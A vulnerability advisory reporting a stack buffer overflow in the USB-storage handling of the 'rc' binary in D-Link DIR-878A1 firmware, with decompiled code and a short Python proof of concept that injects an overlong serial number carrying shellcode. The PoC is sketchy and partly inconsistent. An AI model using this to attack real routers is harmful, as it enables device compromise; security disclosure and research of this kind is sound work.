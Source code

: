 # Buffer Overflow Vulnerability

1. Vulnerability Overview

| **Field**            | **Details**                                            |
| -------------------- | ------------------------------------------------------ |
| Affected Product     | D-Link DIR-878A1 Router                                |
| Firmware Version     | **FW101B04.bin** (other versions require verification) |
| Vulnerability Type   | **Stack Buffer Overflow**                              |
| Vulnerable Component | `rc` binary (USB storage handling module)              |
| Prerequisites        | Requires physical access or control over a USB device  |

2. Exploitation Path

```c
// rc
int __fastcall sub_4500A8(int a1, int a2, int a3)
{
  ...
  _BYTE v17[64]; // [sp+234h] [-84h] BYREF
  ...
  sprintf(v10, "/proc/scsi/usb-storage/%d", a1);
  v6 = fopen(v10, "r");
  if ( v6 )
  {
    while ( fgets(v11, 128, v6) )
    {
      if ( strstr(v11, "Serial Number:") )
        sscanf(v11, "Serial Number: %s", v17);
    }
    ...
}
```

3. **Vulnerable Binary:** `rc`.

4. 0-Day Buffer Overflow Exploitation Path: In `rc`, line 14: `sscanf(v11, "Serial Number: %s", v17)` reads input from buffer `v11`, which is filled via line 11: `fgets(v11, 128, v6)`, allowing a maximum of 127 bytes. The target buffer `v17` is declared as `_BYTE v17[64]`, with a capacity of 64 bytes, leading to a stack buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability:

```python
# Generate an overlong serial number (120 bytes)
malicious_serial = "A"*100 + "\x90\x90\x90\x90" + shellcode

# Create a simulated USB device information
with open("/proc/scsi/usb-storage/0", "w") as f:
    f.write(f"Serial Number: {malicious_serial}\n")
```